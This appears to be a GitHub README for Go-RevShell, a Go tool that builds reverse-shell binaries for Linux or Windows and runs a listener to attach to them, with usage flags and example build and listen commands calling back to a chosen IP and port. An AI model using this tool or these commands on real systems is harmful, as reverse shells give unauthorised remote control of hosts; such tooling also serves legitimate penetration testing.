

Go-RevShell
=======

Pure standard Golang implementation of a reverse-shell generator and a netcat like tcp listener to attach the shell without any executable.

## Table of content
- [Go-RevShell](#go-revshell)
  - [Table of content](#table-of-content)
  - [Usage](#usage)
    - [Build a reverse shell](#build-a-reverse-shell)
    - [Attach to reverse shell](#attach-to-reverse-shell)
  - [Screenshots](#screenshots)
  - [Todo List](#todo-list)

## Usage
```text
  -i string
        IP of the host which the reverse shell will connect to. (default "localhost")
  -l string
        Port to listen (you can use this argument to bind to your reverse shell). (default "0")
  -p string
        Port of the host which the reverse shell will connect to. (default "1111")
  -s string
        OS of the server which will start the reverse shell (used to build the right binary) available : "windows", "linux". (default "linux")
```

### Build a reverse shell

* Build a shell for linux server : ```go run main.go -s linux```
* Build a shell for windows server : ```go run main.go -s windows```
* Build a shell for windows server to be attached on 192.1.1.10:4444 : ```go run main.go -i 192.168.1.10 -p 4444 -s windows```

### Attach to reverse shell

* Listen on port 1111 ```go run main.go -l 1111```
* Listen on port 3412 ```go run main.go -l 3412```

## Screenshots




## Todo List

* Refresh attach screenshot with a windows host
* Publish package

**[`^        back to top        ^`](#)**
